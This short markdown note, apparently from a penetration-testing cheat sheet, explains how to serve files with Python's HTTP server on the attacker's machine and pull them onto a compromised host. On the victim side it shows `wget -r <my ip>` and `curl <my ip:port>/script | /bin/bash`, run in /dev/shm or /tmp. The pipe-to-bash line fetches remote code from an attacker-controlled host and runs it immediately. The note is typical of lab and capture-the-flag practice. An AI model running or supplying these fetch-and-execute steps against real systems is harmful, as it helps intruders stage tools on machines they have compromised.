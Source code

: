 ## PYTHON server 

**on my terminal**
  (open the server in the dir you have the scripts so that it will wget all the files of the dir on the mac)

```bash
  python -m SimpleHTTPServer (portnumber)
```
```bash 
python3 -m http.server (portnumber)

```

**on the mac so obtained/revershell**

dir > /dev/shm (wget any script in this dir)

```bash
 wget -r <my ip>  #(do ifconfig to know the ip)
```
  or

```bash
 curl <my ip:port>/script | /bin/bash
```

Note: you can also wget or curl in /tmp directory 
```sh
# If you see an error 'No module named SimpleHTTPServer' it's because 
> Python SimpleHTTPServer has been migrated to python http.server module in python 3 
```

